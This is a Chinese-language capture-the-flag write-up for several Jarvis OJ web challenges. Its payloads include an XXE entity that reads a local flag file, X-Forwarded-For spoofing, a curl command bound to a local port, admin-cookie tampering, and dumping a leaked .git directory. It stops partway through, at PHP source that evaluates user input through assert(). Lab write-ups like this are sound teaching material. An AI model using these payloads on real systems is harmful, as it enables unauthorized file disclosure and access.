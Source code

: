 ## api调用
请设法获得目标机器/home/ctf/flag.txt中的flag值。
- 查看网页源代码 在`<script>`中看到XMLHttpRequest
- 通过post请求上传xml文件 这里可以利用XXE漏洞（XML外部实体注入）
- bp抓包 默认`Content-Type: application/json` 修改为`application/xml` 同时附加payload

```
<?xml version="1.0"?>
<!DOCTYPE GVI [<!ENTITY xxe SYSTEM "file:///home/ctf/flag.txt" >]>
<something>&xxe;</something>
```
- CTF{XxE_15_n0T_S7range_Enough}

## localhost
进入网页显示localhost access only!!
- X-Forwarded-For: 127.0.0.1
- PCTF{X_F0rw4rd_F0R_is_not_s3cuRe}

## PORT51
- 进入网页显示Please use port 51 to visit this site.
- url是`http://web.jarvisoj.com:32770/`却提示让我们通过51端口访问
- 是我理解错了 应该是本地端口51访问 用到`local-port`
- 构造exp`sudo curl --local-port 51 http://web.jarvisoj.com:32770/`
- ???

## admin
进入网页显示Hello World 
- 扫目录 index.php与robot.txt
- 前者无发现 后者发现`Disallow: /admin_s3cr3t.php`
- 进入admin_s3cr3t.php 显示ctf{hello guest}
- 肯定不是 postman分析 `cookie：admin=0`改成`admin=1`

## babyphp
进入网页是一个个人blog
- 在about处看到博主使用git 涉及git源码泄露
- 用gittools 下载源代码
```
./gitdumper.sh http://web.jarvisoj.com:32798/.git/ ../git
./extractor.sh ../git ../src
```
- 在src目录 目录结构
```
.
├── commit-meta.txt
├── index.php
└── templates
    ├── about.php
    ├── contact.php
    ├── flag.php
    └── home.php
```
- flag.php 中flag被抹去 查看index.php
```php
<?php
if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}
$file = "templates/" . $page . ".php";
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
assert("file_exists('$file')") or die("That file doesn't exist!");
```
